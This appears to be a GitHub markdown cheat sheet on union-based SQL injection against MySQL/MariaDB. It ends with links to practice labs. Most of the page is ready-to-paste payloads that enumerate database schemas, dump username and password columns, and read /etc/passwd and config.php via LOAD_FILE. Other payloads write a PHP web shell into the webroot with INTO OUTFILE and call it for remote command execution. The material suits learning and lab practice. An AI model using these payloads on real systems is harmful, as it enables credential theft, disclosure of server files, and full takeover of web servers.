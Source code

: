 # SQL Injection
![sql-injection](https://user-images.githubusercontent.com/79256105/172219613-c1e688dc-d2fc-4a1c-9e56-35cb868ae5f2.png)

# What is SQL Injection?
SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.
# Types of SQL Injection
https://www.simplilearn.com/tutorials/cyber-security-tutorial/what-is-sql-injection

## Union Base SQL Injection
## Method for dumping data from database using Uninon SQL Injection

##### Schema,Schemata check

      mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

#### Step 1: Schema/Database check

     ' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

#### Step 2: Tables check

      ' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

Here , dev is database name which will replace to your target database name

#### Step3: Columns check

      ' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

Here , credentials is table name whick will replace to your target table name

#### Step4: Dum Data from table:

      ' UNION select 1, username, password, 4 from dev.credentials-- -

Where username and password are column name , dev is database name , credentials is table name

## Read Data/Sensitive files using Union SQL Injection
     SELECT USER()
     SELECT CURRENT_USER()
     SELECT user from mysql.user

#### Step 1:Privilege Check

      SELECT super_priv FROM mysql.user
      ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
      ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
      ' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
#### Step 2:Load File
Now that we know we have enough privileges to read local system files, let us do that using the LOAD_FILE() function. The LOAD_FILE() function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the /etc/passwd file:

      SELECT LOAD_FILE('/etc/passwd');
      ' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

#### Another Example

We know that the current page is search.php. The default Apache webroot is /var/www/html. Let us try reading the source code of the file at /var/www/html/search.php.

      ' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
      ' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
### Write Files Using Union SQL Injection or RCE Using SQL Injection
Example

      ' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
Web Shell Upload:

      ' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
      
Basic PHP Web Shell:

      <?php system($_REQUEST[cmd]); ?>
      
OR 
      
      <?php system($_GET['cmd']); ?>
 
### For RCE , Call Uploaded Web shell 

Example :
          
          url/upload_file.php?parameter=commnad

          http://cyberteach360/shell.php?cmd=id
          

## Practicing and Learning Resources:

#### Try Hack Me :

      https://tryhackme.com/room/sqlinjectionlm
      https://tryhackme.com/room/sqhell

#### Hack The Box Academy :

      https://academy.hackthebox.com/module/33/section/177

#### Port Swigger:         
